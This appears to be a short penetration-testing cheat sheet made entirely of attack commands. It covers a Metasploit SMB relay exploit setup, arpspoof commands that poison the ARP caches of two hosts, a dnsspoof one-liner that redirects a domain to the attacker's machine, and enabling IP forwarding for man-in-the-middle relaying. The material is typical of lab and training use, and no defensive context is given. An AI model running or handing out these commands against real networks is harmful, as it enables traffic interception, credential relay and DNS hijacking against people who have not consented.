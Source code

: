 ## MSFconsole for smb relay attack
```
search smb_relay
use 0
set SRVHOST $attacking_machine_ip
set LHOST $attacking_machine_ip
set SMBHOST $file_server_ip
exploit
```

## Arpspoof
### Spoofing command 
- Spoof $first_ip to convince $second_ip:$attacking_machine_mac
```
arpspoof -i eth1 -t $first_ip $second_ip
```
```
# arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
# arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
# The first command tells arpspoof to send ARP replies to 172.16.5.1, indicating that 172.16.5.5 is at the attacker's MAC address.
# The second command tells arpspoof to send ARP replies to 172.16.5.5, indicating that 172.16.5.1 is at the attacker's MAC address.
```

## Dnsspoof
```
echo "$attacking_machine_ip *.sportsfoo.com" > dns;dnsspoof -i eth1 -f dns
```
## ip_forward
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```



